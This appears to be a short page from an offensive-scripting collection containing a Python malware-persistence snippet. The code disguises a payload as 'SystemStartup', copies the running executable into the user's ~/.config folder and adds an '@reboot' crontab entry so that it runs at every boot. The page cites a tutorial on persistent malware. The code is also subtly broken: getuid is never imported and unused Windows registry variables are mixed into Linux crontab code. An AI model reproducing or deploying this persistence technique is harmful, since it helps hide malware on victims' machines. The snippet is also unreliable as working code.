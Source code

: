 # Scripting

## Python

```python
import os
import shutil
from sys import executable

masquerade_payload_name = "SystemStartup" # Disguise the payload
registry_value = "MicrosoftEdge"
registry_type = "REG_SZ"

def persistence() -> None:
    location = os.path.expanduser('~') + "/.config/" + masquerade_payload_name
    if not os.path.exists(location):
        # Create the autostart directory if it doesn't exist
        os.makedirs(location)
        filename = os.path.join(location, masquerade_payload_name)
        # Copy the payload to that new location
        shutil.copyfile(executable, filename)
        # Add the payload to startup via crontab
        crontab_line = f"@reboot {filename}"
        os.system(f'(crontab -l; echo "{crontab_line}") | crontab -')

if __name__ == "__main__":
    if getuid() == 0:
        persistence()
    else:
        print("Elevated permission is required to copy the payload for persistence!")
```

---
## References

### The Python Code

- [The Python Code: How to Make Malware Persistent in Python](https://thepythoncode.com/article/how-to-create-malware-persistent-in-python)